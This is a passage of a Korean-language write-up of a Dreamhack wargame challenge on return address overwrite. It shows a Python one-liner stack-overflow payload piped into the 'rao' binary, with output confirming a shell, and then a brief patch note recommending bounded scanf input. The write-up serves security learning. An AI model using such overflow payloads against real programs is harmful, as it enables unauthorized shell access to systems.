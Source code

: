### 익스플로잇

- 엔디언을 적용하여 페이로드를 작성하고, 이를 다음의 커맨드로 rao에 전달하면 셸을 획득할 수 있음
- 이는 파이썬으로 출력한 페이로드를 rao의 입력으로 전달함
- 익스플로잇 코드
  
    ```c
    $ (python -c "import sys;sys.stdout.buffer.write(b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00')";cat)| ./rao
    $ id
    id
    uid=1000(rao) gid=1000(rao) groups=1000(rao)
    ```
    

## 취약점 패치

### 취약점 패치

- rao
    - 해당 취약점을 패치하기 위해 C언어에서 자주 사용되는 문자열 입력 함수와 패턴들을 살펴봐야함
    - `scanf("%39s", buf)`

![Untitled](./[Dreamhack]_Return_Address_Overwrite.assets/Untitled%206.png)